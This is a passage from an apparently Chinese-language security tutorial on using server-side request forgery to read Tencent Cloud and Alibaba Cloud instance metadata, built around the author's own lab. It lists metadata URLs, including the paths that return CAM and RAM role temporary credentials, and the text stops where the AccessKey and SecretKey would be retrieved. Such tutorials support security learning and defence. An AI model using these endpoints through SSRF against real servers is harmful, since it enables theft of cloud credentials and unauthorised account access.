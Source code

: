 ![](https://shs3.b.qianxin.com/butian_public/f2625609e8b4f9d9205f6b7285178a481e39add49ebe4.jpg)

![](https://shs3.b.qianxin.com/butian_public/f427799d03b3897c3037b3b03d6b7669324dcab2b9ff7.jpg)

在腾讯云中还可以利用ssrf读取如下数据：

1、获取实例物理所在地信息。

<http://metadata.tencentyun.com/latest/meta-data/placement/region>

![](https://shs3.b.qianxin.com/butian_public/f934081435a063dfe864b9e1dd048a9d793e56e4e6794.jpg)

2、获取实例内⽹ IP。实例存在多张⽹卡时，返回 eth0 设备的⽹络地址。

<http://metadata.tencentyun.com/latest/meta-data/local-ipv4>

![](https://shs3.b.qianxin.com/butian_public/f6659620931978b397557dc958bdddc2cb7c555ebec27.jpg)

3、获取实例公⽹ IP

<http://metadata.tencentyun.com/latest/meta-data/public-ipv4>

![](https://shs3.b.qianxin.com/butian_public/f39598983601b8fd0a9a8d4586442fde74fb77bea2a55.jpg)

4、获取实例网络接口 VPC 网络 ID。

[http://metadata.tencentyun.com/network/interfaces/macs/${mac}/vpc-id](http://metadata.tencentyun.com/network/interfaces/macs/$%7Bmac%7D/vpc-id)

![](https://shs3.b.qianxin.com/butian_public/f6404350d6b402b4a4e34f6650a352bcaa8a8336d8d83.jpg)

5、在获取到⻆⾊名称后，可以通过以下链接取⻆⾊的临时凭证，${role-name} 为 CAM 角⾊的名称：

[http://metadata.tencentyun.com/latest/meta-data/cam/security-credentials/${rolename}](http://metadata.tencentyun.com/latest/meta-data/cam/security-credentials/$%7Brolename%7D)

![](https://shs3.b.qianxin.com/butian_public/f606276e13359e8a07d71c11e88837512bf7ea5689ba9.jpg)

ssrf读取阿里云元数据
------------

这里是使用自己搭建的ssrf靶场环境后进行利用举例。

![](https://shs3.b.qianxin.com/butian_public/f14739018e15ff5039b48fd93e11ba67303a66bb8afc9.jpg)

访问元数据：<http://100.100.100.200/latest/meta-data>

![](https://shs3.b.qianxin.com/butian_public/f577691dde38a5cceda7cc073ff6831960eb68d3017d7.jpg)

在返回的结果中，可以看到当前环境存在 ram/ 目录

![](https://shs3.b.qianxin.com/butian_public/f970043c5721ed92aafec25764290fcaf6dd400a8f7d8.jpg)

说明当前云服务器配置了 RAM 角色，可以进一步获取到临时凭证。获得RAM角色的临时身份凭证，使用该安全令牌就能以RAM角色身份访问被授权的资源。

访问RAM 角色的临时凭证，获取AK SK信息：
